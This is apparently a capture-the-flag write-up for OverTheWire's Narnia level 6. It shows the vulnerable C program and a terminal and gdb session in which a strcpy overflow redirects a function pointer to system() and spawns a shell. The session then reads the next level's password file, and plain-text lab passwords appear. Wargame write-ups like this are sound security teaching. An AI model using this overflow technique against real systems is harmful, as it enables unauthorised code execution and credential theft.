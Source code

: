 Terminal  
===  
```  
ssh narnia6@narnia.labs.overthewire.org  
narnia6@narnia.labs.overthewire.org's password: neezocaeng <enter>  
narnia6@melinda:~$ cd /narnia
narnia6@melinda:/narnia$ cat narnia6.c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
```
**<---- Contains system() function**``
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	fp(b1);

	exit(1);
}  
narnia6@melinda:/narnia$ ./narnia6    
./narnia6 b1 b2
narnia6@melinda:/narnia$ ./narnia6 a b
a  
narnia6@melinda:/narnia$ ./narnia6 $(python -c'print "A"*8 + " " + "B"*8')
Segmentation fault  
narnia6@melinda:/narnia$ gdb -q ./narnia6
Reading symbols from ./narnia6...(no debugging symbols found)...done.
Starting program: /games/narnia/narnia6 $(python -c'print "A"*8 + " " + "B"*8')

Program received signal SIGSEGV, Segmentation fault.
0x08048301 in ?? ()  
(gdb) r $(python -c'print "A"*8 + "BBBB" +  " " + "C"*8')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia6 $(python -c'print "A"*8 + "BBBB" +  " " + "C"*8')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()  
(gdb) r $(python -c'print "A"*8 +  " " + "C"*8 + "AAAA"')  
Starting program: /games/narnia/narnia6 $(python -c'print "A"*8 +  " " + "C"*8 + "AAAA"')

Program received signal SIGSEGV, Segmentation fault.
0x08048301 in ?? ()  
(gdb) r a b
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia6 a b

Breakpoint 1, 0x0804855d in main ()  
(gdb) break system  **<---- Put a breakpoint at the memory location of system()**  
Breakpoint 2 at 0xf7e62e70  
Starting program: /games/narnia/narnia6 $(python -c'print "A"*8 +  "\x70\x2e\xe6\xf7" +  " " + "C"*8')

Breakpoint 1, 0x0804855d in main ()
(gdb) c
Continuing.

Breakpoint 2, 0xf7e62e70 in system () from /lib32/libc.so.6  
(gdb) quit
narnia6@melinda:/narnia$ ./narnia6 $(python -c'print "A"*8 +  "\x70\x2e\xe6\xf7" +  " " + "C"*8 + "/bin/sh"')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
ahkiaziphu  



